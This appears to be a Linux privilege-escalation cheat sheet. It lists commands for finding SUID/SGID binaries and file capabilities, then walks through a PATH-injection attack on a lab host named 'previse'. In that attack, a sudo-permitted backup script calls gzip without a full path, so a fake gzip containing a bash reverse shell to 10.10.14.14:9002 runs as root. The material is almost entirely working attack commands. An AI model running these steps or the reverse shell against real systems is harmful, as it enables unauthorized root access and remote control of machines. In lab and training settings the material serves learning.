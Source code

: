 
## Finding SUID 
```
find / -type f -perm /4000 2>/dev/null
```
or 
```
find / -type f -perm -u=s 2>/dev/null
```


## Finding HUID 
```
find / -type f -perm /2000 2>/dev/null
```
or 
```
find / -type f -perm -g=s 2>/dev/null
```

## Finding Capabilities
```
getcap -r / 2>/dev/null
```


## Path Injection With Sudo nopasswd

```
m4lwhere@previse:/tmp$ sudo -l
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

```
m4lwhere@previse:/tmp$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

```
m4lwhere@previse:/tmp$ cat gzip
#!/bin/bash

bash -c "sh -i >& /dev/tcp/10.10.14.14/9002 0>&1"
```

```
m4lwhere@previse:/tmp$ chmod +x gzip
```

```
m4lwhere@previse:/tmp$ export PATH=/tmp:$PATH
```

```
m4lwhere@previse:/tmp$ sudo -u root /opt/scripts/access_backup.sh
```
